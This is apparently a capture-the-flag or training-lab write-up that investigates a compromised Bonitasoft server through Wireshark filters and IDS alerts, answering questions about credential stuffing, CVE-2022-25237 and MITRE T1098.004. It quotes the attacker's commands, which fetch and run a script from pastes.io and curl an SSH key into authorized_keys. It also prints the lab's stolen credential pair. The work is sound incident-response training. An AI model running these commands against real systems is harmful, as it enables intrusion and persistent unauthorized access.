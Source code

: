 ## We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

- filter for `http` in Wireshark 
- notice URL contains **bonita**
- open JSON alerts file and search for `bonita` to find entries for **Bonitasoft** (confirm with a web search if desired)

### Answer: `bonitasoft`

## We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

- filter for `http.request.method=="POST"` and take note of the numerous logins

- expand the form information to reveals different usernames and passwords

- looks like a **credential stuffing** attack 

### Answer: `Credential Stuffing`

## Does the vulnerability exploited have a CVE assigned - and if so, which one?

- Searching within the JSON alerts file for "Bonitasoft" reveals multiple lines referencing a CVE number, such as the following: 

```
ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"
```

- Performing a web search for "Bonitasoft credential stuffing" (or similar) and/or the above CVE number should net results like the NVD page for the CVE as well

### Answer: `CVE-2022-25237`

## Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?

<p>The NVD description (https://nvd.nist.gov/vuln/detail/CVE-2022-25237) will have this information and it can be found/verified
in the PCAP file</p>

Filter: 

```
http.request.method=="POST" && http.request.uri contains "i18ntranslation"
```

### Answer: `i18ntranslation`

## How many combinations of usernames and passwords were used in the credential stuffing attack?

- First filter out all the form submissions

Filter:
```
http.content_type == "application/x-www-form-urlencoded"
```

- Reviewing the results shows a pattern that each one set of credentials is followed by another submission with **install:install**, to remove these from the results refine the filter.

Filter:

```
http.content_type == "application/x-www-form-urlencoded" && urlencoded-form.value != "install"
```

- This leaves 59 packets but in examining the last three one can see the same credentials (**seb.broom@forela.co.uk:g0vernm3nt
**) indicating a change

- checking the response comfirms that this set of credentials was successful with a 204 response rather than 401

- There are 4 packets in the filtered output associated with the successful request meaning that 56 unique username:password attempts were made

### Answer: `56`

## Which username and password combination was successful?

- As discovered above `seb.broom@forela.co.uk:g0vernm3nt` was the successful username:password pair

### Answer: `seb.broom@forela.co.uk:g0vernm3nt`

## If any, which text sharing site did the attacker utilise?

After successful authentication the attacker makes a POST request to a privileged API endpoint using CVE-2022-25237 to bypass auth. This call uploads **"rce_api_extension.zip"**, which allows command execution, then follows up with a few GET requests to execute system commands, including **cmd=whoami**, **"cmd=cat%20/etc/passwd"** and ***"cmd=wget%20https://pastes.io/raw/bx5gcr0et8"***, then subsequently executes this file with **"cmd=bash%20bx5gcr0et8"**

### Answer: `pastes.io`

## Please provide the filename of the public key used by the attacker to gain persistence on our host.

Following the link that the wget command uses leads to a page with a simple bash script containing a curl command to append an SSH key to authorized_keys and a command to restart the SSH service

```    
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

### Answer: `hffgra4unv`

## Can you confirm the file modified by the attacker to gain persistence?

As seen above, the modified file is the **authorized_keys** file which has a new key appended to it

### Answer: `/home/ubuntu/.ssh/authorized_keys`

## Can you confirm the MITRE technique ID of this type of persistence mechanism?

Using the ATT&CK Navigator and creating a new layer with the Enterprise matrix (https://mitre-attack.github.io/attack-navigator/) a simple search on **SSH** quickly reveals a result **"Account Manipulation : SSH Authorized Keys"**. Clicking view opens the description (https://attack.mitre.org/techniques/T1098/004/) which includes the ID 

### Answer: `T1098.004`